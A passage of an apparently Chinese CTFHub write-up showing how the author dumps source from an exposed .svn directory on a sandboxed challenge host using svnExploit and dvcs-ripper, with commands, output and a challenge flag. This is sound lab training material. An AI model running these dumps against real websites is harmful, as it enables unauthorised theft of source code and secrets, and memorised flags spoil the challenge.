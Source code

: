 提交`ctfhub{db36e890d8ae9388e2d950c5}`即可。

#### SVN泄露

使用 [svnExploit](https://github.com/admintony/svnExploit) 未果。

```bash
┌──(tyd㉿Kali)-[~/ctf]
└─$ git clone https://github.com/admintony/svnExploit.git

┌──(tyd㉿Kali)-[~/ctf]
└─$ cd svnExploit

┌──(tyd㉿Kali)-[~/ctf/svnExploit]
└─$ python SvnExploit.py -u http://challenge-6fa04595016447b5.sandbox.ctfhub.com:10800/.svn
 ____             _____            _       _ _   
/ ___|_   ___ __ | ____|_  ___ __ | | ___ (_) |_ 
\___ \ \ / / '_ \|  _| \ \/ / '_ \| |/ _ \| | __|
 ___) \ V /| | | | |___ >  <| |_) | | (_) | | |_ 
|____/ \_/ |_| |_|_____/_/\_\ .__/|_|\___/|_|\__|
                            |_|                 
SvnExploit - Dump the source code by svn
Author: AdminTony (http://admintony.com)
https://github.com/admintony/svnExploit


+--------------------+----------+------------------------------------------------+
|       文件名       | 文件类型 |                    CheckSum                    |
+--------------------+----------+------------------------------------------------+
|     index.html     |   file   | $sha1$bf45c36a4dfb73378247a6311eac4f80f48fcb92 |
| flag_116206259.txt |   file   |                      None                      |
+--------------------+----------+------------------------------------------------+
```

换个工具 [dvcs-ripper](https://github.com/kost/dvcs-ripper) 试试。

```bash
┌──(tyd㉿Kali)-[~/ctf]
└─$ git clone https://github.com/kost/dvcs-ripper.git 

┌──(tyd㉿Kali)-[~/ctf]
└─$ sudo apt-get install perl libio-socket-ssl-perl libdbd-sqlite3-perl libclass-dbi-perl libio-all-lwp-perl

┌──(tyd㉿Kali)-[~/ctf/dvcs-ripper]
└─$ ls
hg-decode.pl  README.md   rip-cvs.pl  rip-hg.pl
LICENSE       rip-bzr.pl  rip-git.pl  rip-svn.pl
                                                                           
┌──(tyd㉿Kali)-[~/ctf/dvcs-ripper]
└─$ ./rip-svn.pl -v -u http://challenge-6fa04595016447b5.sandbox.ctfhub.com:10800/.svn
[i] Found new SVN client storage format!
REP INFO => 1:file:///opt/svn/ctfhub:e43e7ef8-82fb-4194-9673-81c29de69c33   
[i] Trying to revert the tree, if you get error, upgrade your SVN client!   
已恢复“index.html”                                                          
                                                                            
┌──(tyd㉿Kali)-[~/ctf/dvcs-ripper]
└─$ ls
hg-decode.pl  LICENSE    rip-bzr.pl  rip-git.pl  rip-svn.pl
index.html    README.md  rip-cvs.pl  rip-hg.pl
                                                                            
┌──(tyd㉿Kali)-[~/ctf/dvcs-ripper]
└─$ ls -la                                  
总计 104
drwxr-xr-x 4 tyd tyd  4096  7月23日 18:03 .
drwxr-xr-x 6 tyd tyd  4096  7月23日 18:02 ..
```